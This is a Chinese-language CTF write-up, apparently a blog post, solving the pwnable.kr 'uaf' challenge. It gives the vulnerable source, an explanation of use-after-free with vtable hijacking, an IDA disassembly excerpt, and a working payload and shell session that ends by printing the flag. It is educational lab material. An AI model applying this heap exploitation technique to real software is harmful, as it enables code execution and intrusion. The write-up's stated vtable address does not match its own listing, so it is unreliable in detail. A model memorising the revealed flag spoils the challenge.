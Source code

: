 ```yaml
---
title: pwnable.kr-uaf
date: 2018-01-29 21:02:00
tags: [pwnable.kr,PWN]
categories: CTF
---
```

# 前言
这道题有了pwn的味道了，自己虽然以前学习过二进制漏洞方面的知识但是都是windows方面的（还是新手），对于linux系统下的安全机制和一些关键的技术仍然不熟悉，做这道题参考了[别人的writeup](http://blog.csdn.net/qq_20307987/article/details/51511230)，这篇writeup很详细，对我这样的新手来说很友好。
# 分析
先分析源码`uaf.c`
```c
#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}

```
整个逻辑简短分析。这是一个c++程序，定义了一个基类`Human`和继承的两个子类`Woman`,`Man`。其中关键的部分是基类中定义了两个虚函数`get_shell`,`introduce`。`main`函数中先是定义了两个子类的对象，然后循环结构中有3个`case`，第一个分别调用了`introduce`函数，第二个分配一个用户指定大小的的内存并向里面写入用户指定的数据，第三个执行前面两个对象的销毁。
逻辑清楚了，漏洞在哪呢？根据题目提示，这存在一个`uaf`漏洞。
## 知识点
`UAF`是`Use-After-Free`的缩写，也就是释放后重用漏洞。UAF漏洞的成因是一块堆内存被释放了之后又被使用。又被使用指的是：指针存在（“野”指针被引用）。这个引用的结果是不可预测的，因为不知道会发生什么。由于大多数的堆内存其实都是C++对象，所以利用的核心思路就是分配堆去占坑，占的坑中有自己构造的虚表。
uaf漏洞是一种内存破坏漏洞存在于各种操作系统中。对于本题来说，还要了解的技术如下
- linux内存分配和释放策略
- c++对象内存布局

对于这些参考搜索引擎即可，我找时间好好学习并总结一下（可以参考上面推荐的writeup）。
## 利用
了解了关键的技术接下来就是漏洞的利用。分析程序发现，只要先执行第三个`case`使对象释放，然后再重新申请同样大小的内存，那么根据linux内存的分配策略原先释放掉的对象内存就会被重新分配，这时再执行第一个`case`就会使用“野”指针执行虚函数调用。然而“野”指针指向的内存是由我控制的，于是就达到了利用的目的。然而本题由于有两个对象，且对象调用函数的顺序和内存先释放后分配的事实导致利用有些许改变，应该保证第一个对象（`m`）的函数调用不会引起异常，所以向内存中写入的数据以第一个对象为准。
利用流程就是`case3->case2-case2->case1`。利用思路就是改变虚表指针的值，使其指向虚表的前8个字节（因为`get_shell`是虚表中第一个函数，且题目系统是64位），从而使对象在调用`introduce`时调用`get_shell`而获得shell。所以getflag的关键就是找类`Man`的虚表。
```c
.rodata:0000000000401550 off_401550      dq offset _ZN5Human10give_shellEv
.rodata:0000000000401550                                         ; DATA XREF: Woman::Woman(std::string,int)+24o
.rodata:0000000000401550                                         ; Human::give_shell(void)
.rodata:0000000000401558                 dq offset _ZN5Woman9introduceEv ; Woman::introduce(void)
.rodata:0000000000401560                 public _ZTV3Man ; weak
.rodata:0000000000401560 ; `vtable for'Man
.rodata:0000000000401560 _ZTV3Man        db    0
.rodata:0000000000401561                 db    0
.rodata:0000000000401562                 db    0
.rodata:0000000000401563                 db    0
.rodata:0000000000401564                 db    0
.rodata:0000000000401565                 db    0
.rodata:0000000000401566                 db    0
.rodata:0000000000401567                 db    0
.rodata:0000000000401568                 db 0D0h ; 
.rodata:0000000000401569                 db  15h
.rodata:000000000040156A                 db  40h ; @
.rodata:000000000040156B                 db    0
.rodata:000000000040156C                 db    0
.rodata:000000000040156D                 db    0
.rodata:000000000040156E                 db    0
.rodata:000000000040156F                 db    0
.rodata:0000000000401570 off_401570      dq offset _ZN5Human10give_shellEv
.rodata:0000000000401570                                         ; DATA XREF: Man::Man(std::string,int)+24o
.rodata:0000000000401570                                         ; Human::give_shell(void)
.rodata:0000000000401578                 dq offset _ZN3Man9introduceEv ; Man::introduce(void)
.rodata:0000000000401580                 public _ZTV5Human ; weak
.rodata:0000000000401580 ; `vtable for'Human
.rodata:0000000000401580 _ZTV5Human      db    0
```
在ida中可以发现`Man`类的虚表地址是`0x401550`，然后就有了下面的利用过程
```bash
uaf@ubuntu:~$ python -c "print '\x48\x15\x40'+'\x00'*21" >/tmp/poc
uaf@ubuntu:~$ ./uaf 24 /tmp/poc
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat flag
yay_f1ag_aft3r_pwning
$ 

```
# 总结
感觉做这道题有了pwn的感觉了，学到了很多linux内存管理方面的东西，同时也专门去了解了uaf漏洞的东西，收货很大。